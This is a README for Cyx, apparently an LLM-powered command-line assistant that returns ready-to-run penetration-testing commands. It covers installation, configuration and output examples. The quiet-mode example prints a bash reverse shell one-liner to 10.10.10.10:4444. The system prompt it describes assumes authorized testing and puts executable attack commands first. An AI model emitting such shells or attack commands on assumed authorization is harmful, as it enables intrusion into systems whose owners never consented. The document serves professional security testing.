 # Cyx

> Command-first cybersecurity companion for penetration testers and security researchers

Cyx is an LLM-powered terminal tool that delivers instant, executable security commands. Built for speed and accuracy, it provides command-first answers optimized for professionals in the field.

## Features

- **Command-first output** - executable commands before explanations
- **Learn mode** - detailed educational breakdowns with sources
- **Source attribution** - tracks provider, model, and web search status
- **Dual LLM support** - Perplexity (web search) or Groq (fast inference)
- **Flexible output modes** - quiet, verbose, no-tty for scripting

## Quick Start

```bash
# Clone and build
git clone https://github.com/neur0map/cyx.git
cd cyx
cargo build --release

# Setup (first time - interactive wizard)
./target/release/cyx setup

# Use
cyx "nmap stealth scan"
cyx "sql injection bypass waf"
cyx --learn "linux privilege escalation"
```

## Installation

### Prerequisites

- Rust 1.70 or higher
- API key from [Perplexity](https://www.perplexity.ai/settings/api) or [Groq](https://console.groq.com)

### Build from Source

```bash
git clone https://github.com/neur0map/cyx.git
cd cyx
cargo build --release

# Optional: install to PATH
cargo install --path .
```

### Initial Configuration

Run the interactive setup wizard:

```bash
cyx setup
```

This creates `~/.config/cyx/config.toml` with your API key (stored with 600 permissions).

## Usage

### One-Shot Queries

```bash
# Quick command lookup
cyx "reverse shell one liner"
cyx "hydra ssh brute force"

# Learn mode with detailed explanations
cyx --learn "metasploit meterpreter"
cyx -l "nmap service detection"
```


### CLI Options

```
-l, --learn          Educational mode with detailed breakdowns
-q, --quiet          Minimal output (response only, no formatting)
-v, --verbose        Detailed progress information
    --no-tty         Disable TTY features for scripting
```

### Configuration

```bash
cyx config show                           # View current config
cyx config set provider perplexity        # Change provider
cyx setup                                 # Re-run setup wizard
```

Config file: `~/.config/cyx/config.toml`

## Output Examples

### Normal Mode

```
╭─── RESPONSE ──────────────────────────────────────────────
│ ```bash
│ nmap -sS <target>
│ ```
│ TCP SYN stealth scan - doesn't complete handshake. Requires root.
╰──────────────────────────────────────────────────────────

[*] SOURCES
───────────────────────────────────────
Provider: Perplexity (sonar-pro)
Search: Yes (performed web search)

Links:
  - nmap documentation: https://nmap.org/book/synscan.html
  - TCP protocol (RFC 793): https://www.ietf.org/rfc/rfc793.txt
```

### Learn Mode

Detailed breakdowns with flag explanations, how it works, advantages/disadvantages, alternatives, and cited sources.

```bash
cyx --learn "nmap stealth scan"
```

### Quiet Mode

```bash
$ cyx -q "reverse shell bash"
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

## Technical Details

### Security

- API keys stored with 600 permissions in `~/.config/cyx/config.toml`
- Read-only operation - provides commands but never executes them
- Timeout protection - all API calls timeout after 120 seconds
- Local-first - all sensitive data remains on your machine

### System Prompts

**Normal mode**: Command-first responses with minimal explanation, assumes authorized testing context, prioritizes executable commands over theory.

**Learn mode**: Educational responses with detailed flag breakdowns, protocol explanations, cited sources, advantages/disadvantages, and alternatives.

## Disclaimer

**For authorized security testing, educational purposes, and defensive research only.**

This tool is designed for:
- Professional penetration testers with written authorization
- Security students in controlled lab environments
- Capture The Flag (CTF) competitions
- Defensive security and threat analysis

Always obtain explicit permission before testing systems you don't own.

## License

MIT License - See [LICENSE](LICENSE) for details.
